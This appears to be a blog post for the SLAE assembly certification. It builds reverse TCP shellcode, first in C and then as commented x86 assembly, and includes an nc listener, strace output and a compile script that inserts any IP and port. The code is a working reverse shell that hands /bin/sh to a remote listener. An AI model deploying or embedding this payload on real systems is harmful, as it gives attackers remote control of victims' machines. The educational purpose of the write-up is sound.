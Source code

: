 ```yaml
---
title:  "[SLAE 2] Reverse TCP Shellcode"
---
```


![Logo](/assets/images/tux-root.png)

## Reverse TCP Shellcode

This is the second assignment of the [SLAE](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) exam: building a reverse TCP shellcode. As for the previous _`bind tcp`_ one, I've started with a C program that creates a reverse TCP connection:
```c
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>
#include <string.h>
#include <sys/types.h>
 
int main() {
    int sockfd = 0;
    int ret = 0;
 
    struct sockaddr_in dest;
 
    // Create an un-named socket. returns socket descriptor
    sockfd = socket(AF_INET, SOCK_STREAM, 0);
 
    memset(&dest, '0', sizeof(struct sockaddr));
    dest.sin_family = AF_INET;
    dest.sin_addr.s_addr = inet_addr("127.0.0.1"); 
    dest.sin_port = htons(8888);
 
    connect(sockfd, (struct sockaddr *)&dest, sizeof(struct sockaddr));
 
    // Duplicate stdin, stdout, stderr
    ret = dup2(sockfd, 0);
    if (-1 == ret) {
        printf("STDIN duplication failed: %s\n", strerror(errno));
        return 1;
    }
 
    ret = dup2(sockfd, 1);
    if (-1 == ret) {
        printf("STDOUT duplication failed: %s\n", strerror(errno));
        return 1;
    }
 
    ret = dup2(sockfd, 2);
    if (-1 == ret) {
        printf("STDERR duplication failed: %s\n", strerror(errno));
        return 1;
    }
 
    // Replace process image
    char *args[2];
    args[0] = "/bin/sh";
    args[1] = NULL;      // Needs to ne a NULL terminated list of args
 
    ret = execve(args[0], args, NULL);
    if (-1 == ret) {
        printf("Execve failed: %s\n", strerror(errno));
        return 1;
    }
 
    return 0;
}
```

I've then compiled the reverse shell:
```bash
$ gcc -Wall shell_reverse_tcp.c -o shell_reverse_tcp
```

And started the listener to test: 
```bash
$ nc -lvvp 8888
Listening on [0.0.0.0] (family 0, port 8888)
```

And in another terminal executed the reverse shellcode: 
```bash
$ ./shell_reverse_tcp
```

Sure enough, the listener received a remote connection:
```bash
Listening on [0.0.0.0] (family 0, port 8888)
Connection from [127.0.0.1] port 8888 [tcp/*] accepted (family 2, sport 60226)
whoami
liv
```

To see the system calls necessary to implement this in assembly, I've used _`strace`_:
```bash
$ strace ./shell_reverse_tcp
...
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(8888), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
dup2(3, 0)                              = 0
dup2(3, 1)                              = 1
dup2(3, 2)                              = 2
execve("/bin/sh", ["/bin/sh"], [/* 0 vars */]) = 0
```

Next is the commented assembly source code implementing the system calls from above:
```assembly
global _start   

section .text
_start:

    ; Linux Syscall Reference
    ; http://syscalls.kernelgrok.com/


    ; 1. socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = sockfd
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    push ecx        ; NULL terminate args list
    mov cl, 6       ; IPPROTO_TCP (6)
    push ecx
    xor ecx, ecx
    mov cl, 1       ; SOCK_STREAM (1) - in socket.h
    push ecx
    xor ecx, ecx
    mov cl, 2       ; PF_INET (2) - IP PROTO FAMILY
    push ecx
    mov ecx, esp    ; socketcall arguments
    xor ebx, ebx
    mov bl, 1       ; socketcall type of call: SYS_SOCKET (1) 
    push 102
    pop eax         ; socketcall syscall
    int 0x80
    mov edx, eax    ; sockfd is returned in eax. Save into edx    

    ; 2. connect(3, {sa_family=AF_INET, sin_port=htons(8888), sin_addr=inet_addr("127.0.0.1")}, 16)
    ;struct sockaddr_in {
    ;    short            sin_family;   // e.g. AF_INET, AF_INET6
    ;    unsigned short   sin_port;     // e.g. htons(3490)
    ;    struct in_addr   sin_addr;     // see struct in_addr, below
    ;    char             sin_zero[8];  // zero this if you want to
    ;};
    ;struct in_addr {
    ;    unsigned long s_addr;          // load with inet_pton()
    ;};
    push <IP>       ; IP address
    push word <PORT>; 16 bits - port number
    push word 2     ; family - AF_INET (2)
    mov ecx, esp    ; pointer to args

    push byte 0x10  ; Address length - 16 bytes
    push ecx        ; Pointer to sockaddr_in structure
    push edx        ; sockfd from socket call

    mov ecx, esp    ; socketcall arguments
    xor ebx, ebx
    mov bl, 3       ; socketcall type of call: SYS_CONNECT (3)
    xor eax, eax
    mov al, 102     ; socketcall syscall
    int 0x80

    ; 3. dup2(connfd, 2), dup2(connfd, 1), dup2(connfd, 0)
    push 2
    pop ecx         ; ecx - newfd
    mov ebx, edx    ; edx - connfd, ebx - oldfd
    dup_loop:
    mov al, 63      ; dup2 syscall
    int 0x80
    dec ecx
    jns dup_loop    ; exit when signed (-1)
      
    ; 4. execve("/bin/sh", ["/bin/sh"], [/* 0 vars */])
 ; PUSH the first null dword 
 xor eax, eax
 push eax

    ; PUSH //bin/sh (8 bytes) 
 push 0x68732f2f ; 'hs//'
 push 0x6e69622f ; 'nib/
 mov ebx, esp    ; EBX - 1st param - NULL terminated filename

 push eax        ; EDX - 3rd param - NULL terminated list of env variables
 mov edx, esp    ; NULL terminator must be set before setting the 2nd param!

 push ebx        ; ECX - 2nd param - array of argument strings
 mov ecx, esp

 mov al, 11      ; execve syscall
 int 0x80
```

The IP address and port are replaced by a bash script, which does the compilation and linking:
```bash
$ ./compile.sh 
Usage: compile.sh {ip} {port}
$ ./compile.sh 127.0.0.2 8899
[+] Replacing IP with 0x0200007f
[+] Replacing port number with 0xc322
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Cleaning ...
[+] Done!
$ nc -lvvp 8899 
Listening on [0.0.0.0] (family 0, port 8899)
$ ./shell_reverse_tcp
Connection from [127.0.0.1] port 8899 [tcp/*] accepted (family 2, sport 41801)
whoami
liv
```

##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**

